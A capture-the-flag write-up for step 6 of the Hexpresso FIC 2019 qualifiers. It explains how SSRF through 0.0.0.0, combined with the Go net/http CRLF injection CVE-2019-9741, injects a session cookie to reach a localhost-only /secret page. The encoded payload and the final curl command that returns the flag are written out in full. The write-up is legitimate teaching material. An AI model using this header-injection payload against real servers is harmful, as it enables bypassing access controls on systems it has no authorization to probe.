 ```yaml
---
title: Hexpresso FIC Quals 2019: Step 6
slug: hexpresso-fic-6
date: 20/12/2019 06
---
```


The sixth step is a WEB application that allows us to fetch an URL.

![Introduction](/assets/hexpresso-fic-quals/step6/intro.png)

In the source code of the page we can read:

```html
<div class="col s12">
    <!-- <span>PS: To get your flag go here: <a href="/secret">/secret</a></span> -->
</div>
```

So, our objective is to access `/secret`. Let's see:

![Secret](/assets/hexpresso-fic-quals/step6/secret.png)

Coming from `127.0.0.1` should not be a big deal using the URL fetcher
itself, right? This challenge really looks like a standard SSRF anyways...

![Not so easy](/assets/hexpresso-fic-quals/step6/not_so_easy.png)

*Note: we must add a GET parameter because the script appends
`:80/` at the end of the URL. We could deal with it but its more convenient
to totally absorb it.*

It seems that `0.0.0.0` is reachable. We should now be coming from `127.0.0.1`
but there is something else. We are missing the `GOSESSION` cookie.

I tried to trick the applicaion for some time but the problem is clear: we
have to control the body of the query that the URL fetcher performs in order to
add the cookie.

At this point, I was very sad and did not know what to do. I was about to
give up when my teammate [Plean](https://twitter.com/plean702) sent me
[this link](https://github.com/golang/go/issues/30794).

[CVE-2019-9741](https://nvd.nist.gov/vuln/detail/CVE-2019-9741) is a CRFL
injection, in the `net/http` package of Go (version 1.11). It is exactly
what we need as it allows to write the body of the query.

I tweaked the example payload of the GitHub (see the link above) issue and
came up with this:

```
0.0.0.0/secret?b%3d%20HTTP/1.1%0d%0aCookie:%20GOSESSION%3dabc
```

A bit more readble:

```
0.0.0.0/secret?b= HTTP/1.1\r
Cookie: GOSESSION=abc
```

The original body will still be present, after ours, but it does not matter.

Because we have to deal with CRLFs, it is easier to urlencode the payload.
However, the URL fetcher interface does not handle it well. We can use `curl`
instead:

Final command:

```
$ curl 'http://c4ffddcc437c5df3e6d681e7cafab510.hexpresso.fr/host?host=0.0.0.0/secret?b%3d%20HTTP/1.1%0d%0aCookie:%20GOSESSION%3dabc%0d%0aSHIT:%20123' | jq -r ".content" | base64 -D
{"ok":true,"message":"Ok here is your flag ...","flag":"Gg ! Send mail here 9ca37832b9fb80-penultimate-stage@hexpresso.fr ! But there is one last step here for the brave available on : https://ctf.hexpresso.fr/219058289d8699adc0b119374c2fc5bc"}
```

I took a break at this point but my teammate Shiro continued on step 7. Please,
take a look at [his writeup](https://github.com/Pycatchown/writeUps/blob/master/FIC/step7/wu_step7.md).